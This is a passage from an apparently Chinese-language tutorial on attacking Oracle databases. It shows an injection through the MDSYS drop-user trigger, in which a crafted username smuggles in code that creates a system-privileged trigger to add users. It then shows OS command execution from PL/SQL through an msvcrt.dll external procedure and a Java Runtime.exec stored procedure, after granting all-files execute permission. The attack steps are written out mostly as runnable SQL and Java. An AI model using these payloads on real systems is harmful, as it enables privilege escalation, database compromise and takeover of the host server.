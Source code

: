 我们先创建一个过程g（名字要短）,方便注射到MDSYS.SDO_DROP_USER_BEFORE中，然后将g的执行权限赋给public，在过程g中，我们创建 一个在system模式OL$的trigger，代码如上

```
drop user "g');hellove.g('";  
insert into system.OL$(OL_NAME) values('test');  
set role dba

```

删除用户将触发触发器MDSYS.sdo_drop_user_before，注入代码以MDSYS模式下执行，而MDSYS可以create any trigger，所以我们利用MDSYS 创建system.OL$下的一个trigger，之所以是system.OL$，是因为public用户可以往里面插入数据而触发触发器，然后由于触发器是以definer来 运行的，所以创建的system.evil_trigger就以sysem的权限下加用户了,以上代码还是可以结合dbms_xmlquery.getxml来使用，请自行构造 简单分析了几个漏洞，由于oracle类似的漏洞太多了，不大可能一一分析，所以本小结到这就结束了**0x3 执行命令**下面的章节都假定我们已经获得了很高的权限，接下来我们的target就转移到了os，下面我们来讲一下如何在pl/sql中执行os命令

```
create or replace library exec_shell as '$ORACLE_HOME\bin\msvcrt.dll';  
create or replace procedure execmd (command in char) is external name "system" library exec_shell language c;  
/

exec execmd('net user > hellove.txt');  

```

直接照这上面的操作是必定会失败的，因为$ORACLE_HOME\bin\下压根就没msvcrt.dll，long long ago是可以用绝对地址”c:\windows\system32\msvcrt.dll”，或者用路径回溯”……\windows\system32\msvcrt.dll”来执行command的，不过在oracle 10gr2已经不行了，所以测试这个 代码的时候我是直接把msvcrt.dll复制到$ORACLE_HOME\bin\下，面对这种情况，我们可以利用PL/SQL来复制msvcrt.dll，或者用JAVA来执行命 令，我比较偏爱JAVA :)

```
create or replace and resolve java source named JAVACMD as  
import java.lang.*;  
import java.io.*;  
public class JAVACMD  
{  
public static void execmd(String command) throws IOException  
{  
Runtime.getRuntime().exec(command);  
}  
}

create or replace procedure MYJAVACMD(command in varchar) as language java  
name 'JAVACMD.execmd(java.lang.String)';

```

不过在执行这个MYJAVACMD之前必须将相应的JAVA权限赋予用户，之前提到的DBMS_JVM_EXP_PERMS就可以给用户赋予任意java权限，简单起见，我们直接赋予

```
exec dbms_java.grant_permission( 'HELLOVE', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );  
exec MYJAVACMD('net user');

```

突然发现我的题目是hacking oracle with sql inject，不是with pl/sql...让我们简单结合dbms_xmlquery.newcontext来在web下使用
